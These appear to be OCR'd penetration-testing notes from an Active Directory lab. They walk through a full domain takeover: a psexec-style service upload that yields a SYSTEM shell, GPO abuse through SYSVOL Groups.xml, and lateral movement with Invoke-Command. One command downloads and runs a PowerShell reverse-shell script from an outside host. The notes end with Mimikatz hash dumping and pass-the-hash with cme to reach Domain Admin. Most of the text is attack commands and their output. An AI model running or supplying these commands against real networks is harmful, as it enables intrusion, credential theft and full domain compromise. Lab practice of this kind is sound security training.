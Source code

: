 <p>[<em>] Requesting shares on 10.8.14.14.....
[</em>] Found writable share ADMIN$
[<em>] Uploading file JkqJuZDF.exe
[</em>] Opening SVCManager on 10.8.14.14.....
[<em>] Creating service HPPN on 10.8.14.14.....
[</em>] Starting service HPPN.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.</p>

<p>C:\Windows\system32>whoami
nt authority\system</p>

<p>System on sql01 then use token impersonation to get to bdavis</p>

<p>GPO Enumeration:
Get Group Policy Objects
Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}</p>

<p>Get-NetGPO -DisplayName MailServer-Config | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}</p>

<p>Get-NetOU -GUID "{2259E5B0-3B49-4704-98BB-5A9581B54E8E}" | %{Get-NetComputer -ADSpath $_}</p>

<p>Add "Server Admins" to the below file
type "\lab.local\sysvol\lab.local\Policies{2259E5B0-3B49-4704-98BB-5A9581B54E8E}\MACHINE\Preferences\Groups\Groups.xml"</p>

<p>Invoke-GpUpdate -Computer MX01 -Force</p>

<p>Since BDavis is a user on MX01 we can move laterally via Invoke-Command or just run Mimikatz on the Box
Invoke-Command -ComputerName MX01 -ScriptBlock {IEX (New-Object Net.WebClient).DownloadString('http://10.8.254.10/Invoke-PowerShellTcpOneLine.ps1')}
Invoke-Command -ComputerName MX01 -ScriptBlock {.\Invoke-Mimikatz.ps1)}</p>

<p>we get NTLM hashes for BDavis and Ross, who is a Domain Admin. 
With this info we are able to use the Ross account to add us to net users and Domain Admins
we user cme to expoit the hashes and get a shell.</p>

